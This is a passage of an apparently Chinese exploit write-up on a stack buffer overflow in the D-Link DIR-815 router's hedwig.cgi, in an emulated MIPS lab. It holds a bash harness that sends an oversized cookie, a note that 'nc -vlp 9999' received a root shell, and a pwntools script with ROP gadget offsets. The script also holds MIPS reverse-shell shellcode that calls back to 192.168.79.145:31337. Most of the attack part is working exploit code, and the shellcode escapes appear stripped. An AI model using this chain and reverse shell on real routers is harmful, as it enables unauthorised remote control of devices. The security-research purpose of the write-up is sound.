 ```
#!/bin/bash
export CONTENT_LENGTH="100"
export CONTENT_TYPE="application/x-www-form-urlencoded"
export HTTP_COOKIE="uid=`cat context`"
export REQUEST_METHOD="POST"
export REQUEST_URI="/hedwig.cgi"
echo "uid=1234"|/htdocs/web/hedwig.cgi
#echo "uid=1234"|./gdbserver.mipsel 192.168.79.145:6666 /htdocs/web/hedwig.cgi
```

在mips虚拟机运行之后在本机nc -vlp 9999，确实能够获取/bin/bash权限。成功了！说明rop链构造是没问题的。

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/ncvlp9999.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/ncvlp9999.png)

利用sleep(1)调用shellcode

这里的shllcode作用是给指定的IP地址和端口反弹shell，根据[文章](http://shell-storm.org/shellcode/files/shellcode-860.php)修改其中的socket反向连接IP，端口没有改变还是31337。

```
#!/usr/bin/python2
from pwn import *
context.endian = "little"
context.arch = "mips"

shellcode = ""
shellcode += "xffxffx04x28xa6x0fx02x24x0cx09x09x01x11x11x04x28"
shellcode += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
shellcode += "xa6x0fx02x24x0cx09x09x01xfdxffx0cx24x27x20x80x01"
shellcode += "x27x28x80x01xffxffx06x28x57x10x02x24x0cx09x09x01"
shellcode += "xffxffx44x30xc9x0fx02x24x0cx09x09x01xc9x0fx02x24"
shellcode += "x0cx09x09x01x79x69x05x3cx01xffxa5x34x01x01xa5x20"
#shellcode += "xf8xffxa5xafx01xb1x05x3cxc0xa8xa5x34xfcxffxa5xaf"#192.168.1.177:31337
shellcode += "xf8xffxa5xafx4fx91x05x3cxc0xa8xa5x34xfcxffxa5xaf"#192.168.79.145
shellcode += "xf8xffxa5x23xefxffx0cx24x27x30x80x01x4ax10x02x24"
shellcode += "x0cx09x09x01x62x69x08x3cx2fx2fx08x35xecxffxa8xaf"
shellcode += "x73x68x08x3cx6ex2fx08x35xf0xffxa8xafxffxffx07x28"
shellcode += "xf4xffxa7xafxfcxffxa7xafxecxffxa4x23xecxffxa8x23"
shellcode += "xf8xffxa8xafxf8xffxa5x23xecxffxbdx27xffxffx06x28"
shellcode += "xabx0fx02x24x0cx09x09x01"

libc_base = 0x77f34000
sleep = 0x56BD0 #sleep jr ra 0x7678edf4
gadget1 = 0x57E50
gadget2 = 0x3B8A8
gadget3 = 0x14F28
gadget4 = 0x1DD08#0x15C84#0xBB44

payload = 'A' * 973 #1009-9*4
payload += 'A' * 4                           # s0
payload += p32(libc_base + gadget2)       # s1 = mipsrop.tail() &amp;&amp; move $ra,$(sp+0x24) &amp;&amp; jr s2
payload += p32(libc_base + sleep)         # s2 = jr $(sp+0x24)
payload += 'A' * 4                        # s3
payload += p32(libc_base + gadget4)       # s4 = mipsrop.find("move $t9,$s1") &amp;&amp; jr shellcode
payload += 'A' * 4                           # s5
payload += 'A' * 4                        # s6
payload += 'A' * 4                        # s7
payload += 'A' * 4                        # fp
payload += p32(libc_base + gadget1)       # ra = mipsrop.find("li $a0,1") &amp;&amp; jr s1

payload += 'B' * 0x24 # mipsrop.tail() 0x24B padding
```